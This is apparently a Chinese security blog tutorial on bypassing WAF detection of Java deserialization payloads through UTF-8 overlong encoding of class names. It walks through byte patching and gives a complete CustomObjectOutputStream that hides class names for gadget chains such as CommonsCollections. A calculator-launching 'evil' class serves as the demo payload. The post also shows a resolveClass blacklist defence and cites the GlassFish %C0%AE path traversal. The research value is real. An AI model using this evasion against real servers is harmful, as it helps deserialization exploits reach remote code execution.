# WAF检测

一般来说，对于Java的反序列化WAF逻辑的检测，假如是一段Base64或者其他的编码后的序列化数据，首先肯定要解码才会放到反序列化中，所以可以对解码后的byte流进行检测，校验是否有序列化的魔术字节（aced0005），以便正常的反序列化，接下来就是对序列化类的黑名单校验（可重写resolveclass，也可直接可见字符进行检测，因为序列化后的数据类名是可明文读取的）

可以来看看

```
package com.test;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.HashMap;

public class UnserTest {
    public static void main(String[] args) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(new HashMap());
        System.out.println(byteArrayOutputStream.toString());
    }
}
```



类名是可以明确看到的

对于这种情况，可以想到如果让类名不可见就好了

# UTF-8

UTF-8是现在最流行的编码方式，它可以将unicode码表里的所有字符，用某种计算方式转换成长度是1到4位字节的字符。

那UTF-8具体是怎么实现的呢

- 1个字节的时候，有8个二进制位，高位设置为0，剩余7位用于编码。
- 在 n 个字节的时候，n>1，从左往右，第一个字节的 n 个高位设置为 1，后跟一个设置为 0 的位，剩余位用于编码。剩下的字节，都将高位设置为 1，将后续的1位设置为 0，每个字节中留下 6 个二进制位用于编码。

更精细的区分

1. 如果是1个字节，即要表示ASCII码，那简单，直接就是高位设置为0，剩下就是原本的二进制，即`0xxxxxxx`。比如`A`字母在unicode中，码点是`0x41`，那么在计算机中，用二进制表示就是`01000001`。
2. 如果是2个字节，那就是从左往右，第一个字节2个高位设置为1，后面跟一个0，第二个字节高位设置为1，后面跟一个0，即`110xxxxx 10xxxxxx`。
3. 如果是3个字节，那就是从左往右，第一个字节3个高位设置为1，后面跟一个0，第二个字节和第三个字节一样，都是高位设置为1，后面跟一个0，即`1110xxxx 10xxxxxx 10xxxxxx`。
4. 后面以此类推

p师傅给了一张表



举个例子，欧元符号€的unicode编码是U+20AC，按照如下方法将其转换成UTF-8编码：

- 首先，因为U+20AC位于U+0800和U+FFFF之间，所以按照上表可知其UTF-8编码长度是3
- 0x20AC的二进制是`10 0000 1010 1100`，将所有位数从左至右按照4、6、6分成三组，第一组长度不满4前面补0：`0010`，`000010`，`101100`
- 分别给这三组增加前缀`1110`、`10`和`10`，结果是`11100010`、`10000010`、`10101100`，对应的就是`\xE2\x82\xAC`
- `\xE2\x82\xAC`即为欧元符号€的UTF-8编码

所以假如我们的字符是o，o的Unicode码点为0x6F码点的范围在U+0000到U+007F之间，正常的Unicode编码是1字节的，但也可以转化为两字节（后面的关键）

- 转化为二进制是`0110 1111`
- 最后取6位，左边不足的补零5位的补零
- 最后高位部分`11000001`，低位部分为`10101111`
- 转化为16进制为0xC1AF

# 利用Overlong Encoding绕过

先来写一个恶意类

```
package com.test;

import java.io.IOException;
import java.io.Serializable;

public class evil implements Serializable {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```



这是序列化后的数据，可以正常反序列化



但假如我对这个恶意类的类名进行检测后，那就不可行了

来看看readObject是怎么获取到类名的



在readUTFSpan方法中



```
case 7:   // 1 byte format: 0xxxxxxx
    cbuf[cpos++] = (char) b1;
    break;
```

这个逻辑来获取utf的className字符串的值，获取的是1byte的格式，在下面case13处，发现还可以获取2byte的utf数据，我们来混淆一下c这个字符，将其转化为UTF-8的2byte格式

- c的Unicode码点为`0x63`，转化为二进制是`0110 0011`
- 高五位，低6位补齐后是`11000001 10100011`
- 转化为16进制后是0xc1a3



但是反序列化的时候却报错了



这是因为我们修改了字节数，在readUTFSpan方法中存在一个utflen，这里为13，我们修改后应该为14



所以将0D改为0E



此时已经混淆了原本的类名前缀com



反序列化成功

# CommonCollections实验

1ue师傅重写了一个ObjectOutputStream来用于混淆序列化类名

```
package com.test;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;

public class CustomObjectOutputStream extends ObjectOutputStream {

    private static HashMap<Character, int[]> map;

    static {
        map = new HashMap<>();
        map.put('.', new int[]{0xc0, 0xae});
        map.put(';', new int[]{0xc0, 0xbb});
        map.put('$', new int[]{0xc0, 0xa4});
        map.put('[', new int[]{0xc1, 0x9b});
        map.put(']', new int[]{0xc1, 0x9d});
        map.put('a', new int[]{0xc1, 0xa1});
        map.put('b', new int[]{0xc1, 0xa2});
        map.put('c', new int[]{0xc1, 0xa3});
        map.put('d', new int[]{0xc1, 0xa4});
        map.put('e', new int[]{0xc1, 0xa5});
        map.put('f', new int[]{0xc1, 0xa6});
        map.put('g', new int[]{0xc1, 0xa7});
        map.put('h', new int[]{0xc1, 0xa8});
        map.put('i', new int[]{0xc1, 0xa9});
        map.put('j', new int[]{0xc1, 0xaa});
        map.put('k', new int[]{0xc1, 0xab});
        map.put('l', new int[]{0xc1, 0xac});
        map.put('m', new int[]{0xc1, 0xad});
        map.put('n', new int[]{0xc1, 0xae});
        map.put('o', new int[]{0xc1, 0xaf}); // 0x6f    2byte数据为0xc1 0xaf 即11000001 10101111
        map.put('p', new int[]{0xc1, 0xb0});
        map.put('q', new int[]{0xc1, 0xb1});
        map.put('r', new int[]{0xc1, 0xb2});
        map.put('s', new int[]{0xc1, 0xb3});
        map.put('t', new int[]{0xc1, 0xb4});
        map.put('u', new int[]{0xc1, 0xb5});
        map.put('v', new int[]{0xc1, 0xb6});
        map.put('w', new int[]{0xc1, 0xb7});
        map.put('x', new int[]{0xc1, 0xb8});
        map.put('y', new int[]{0xc1, 0xb9});
        map.put('z', new int[]{0xc1, 0xba});
        map.put('A', new int[]{0xc1, 0x81});
        map.put('B', new int[]{0xc1, 0x82});
        map.put('C', new int[]{0xc1, 0x83});
        map.put('D', new int[]{0xc1, 0x84});
        map.put('E', new int[]{0xc1, 0x85});
        map.put('F', new int[]{0xc1, 0x86});
        map.put('G', new int[]{0xc1, 0x87});
        map.put('H', new int[]{0xc1, 0x88});
        map.put('I', new int[]{0xc1, 0x89});
        map.put('J', new int[]{0xc1, 0x8a});
        map.put('K', new int[]{0xc1, 0x8b});
        map.put('L', new int[]{0xc1, 0x8c});
        map.put('M', new int[]{0xc1, 0x8d});
        map.put('N', new int[]{0xc1, 0x8e});
        map.put('O', new int[]{0xc1, 0x8f});
        map.put('P', new int[]{0xc1, 0x90});
        map.put('Q', new int[]{0xc1, 0x91});
        map.put('R', new int[]{0xc1, 0x92});
        map.put('S', new int[]{0xc1, 0x93});
        map.put('T', new int[]{0xc1, 0x94});
        map.put('U', new int[]{0xc1, 0x95});
        map.put('V', new int[]{0xc1, 0x96});
        map.put('W', new int[]{0xc1, 0x97});
        map.put('X', new int[]{0xc1, 0x98});
        map.put('Y', new int[]{0xc1, 0x99});
        map.put('Z', new int[]{0xc1, 0x9a});
    }

    public CustomObjectOutputStream(OutputStream out) throws IOException {
        super(out);
    }

    @Override
    protected void writeClassDescriptor(ObjectStreamClass desc) throws
            IOException {
        String name = desc.getName();
        // writeUTF(desc.getName());
        writeShort(name.length() * 2);
        for (int i = 0; i < name.length(); i++) {
            char s = name.charAt(i);
            // System.out.println(s);
            write(map.get(s)[0]);
            write(map.get(s)[1]);
        }
        writeLong(desc.getSerialVersionUID());
        try {
            byte flags = 0;
            if ((boolean) getFieldValue(desc, "externalizable")) {
                flags |= ObjectStreamConstants.SC_EXTERNALIZABLE;
                Field protocolField =
                        ObjectOutputStream.class.getDeclaredField("protocol");
                protocolField.setAccessible(true);
                int protocol = (int) protocolField.get(this);
                if (protocol != ObjectStreamConstants.PROTOCOL_VERSION_1) {
                    flags |= ObjectStreamConstants.SC_BLOCK_DATA;
                }
            } else if ((boolean) getFieldValue(desc, "serializable")) {
                flags |= ObjectStreamConstants.SC_SERIALIZABLE;
            }
            if ((boolean) getFieldValue(desc, "hasWriteObjectData")) {
                flags |= ObjectStreamConstants.SC_WRITE_METHOD;
            }
            if ((boolean) getFieldValue(desc, "isEnum")) {
                flags |= ObjectStreamConstants.SC_ENUM;
            }
            writeByte(flags);
            ObjectStreamField[] fields = (ObjectStreamField[])
                    getFieldValue(desc, "fields");
            writeShort(fields.length);
            for (int i = 0; i < fields.length; i++) {
                ObjectStreamField f = fields[i];
                writeByte(f.getTypeCode());
                writeUTF(f.getName());
                if (!f.isPrimitive()) {
                    Method writeTypeString =
                            ObjectOutputStream.class.getDeclaredMethod("writeTypeString", String.class);
                    writeTypeString.setAccessible(true);
                    writeTypeString.invoke(this, f.getTypeString());
                    // writeTypeString(f.getTypeString());
                }
            }
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        } catch (NoSuchMethodException e) {
            throw new RuntimeException(e);
        } catch (InvocationTargetException e) {
            throw new RuntimeException(e);
        }
    }

    public static Object getFieldValue(Object object, String fieldName) throws
            NoSuchFieldException, IllegalAccessException {
        Class<?> clazz = object.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        Object value = field.get(object);

        return value;
    }
}
```



可以看到类名都被混淆过了，看不到明文的字符串

# 缺陷

这种方式确实可以绕过对于明文字符串的检测，但是对于重写的resolveclass的检测方式却不是很有用

```
public static class testObjectInputStream extends ObjectInputStream{
    public testObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    protected Class<?> resolveClass(ObjectStreamClass desc)
            throws IOException, ClassNotFoundException{
        if(desc.getName().equals("com.test.evil")){
            throw new ClassNotFoundException(desc.getName()+" forbidden!");
        }
        return super.resolveClass(desc);
    }
}
```

当我用反序列化本身的流来获取className来进行判断是时候，就和是否有明文字符串关系不大了

其实这种方法早在[GlassFish 任意文件读取漏洞](https://github.com/vulhub/vulhub/tree/master/glassfish/4.1.0)就出现了，这个漏洞就是在URL中使用`%C0%AE`来代替点号`.`，绕过目录穿越的限制，导致任意文件读取漏洞，如下是vulhub中的图




参考链接：

https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html

https://mp.weixin.qq.com/s/ytz2WsvPSADYHA520Me9-g

https://wx.zsxq.com/dweb2/index/topic_detail/188821885558212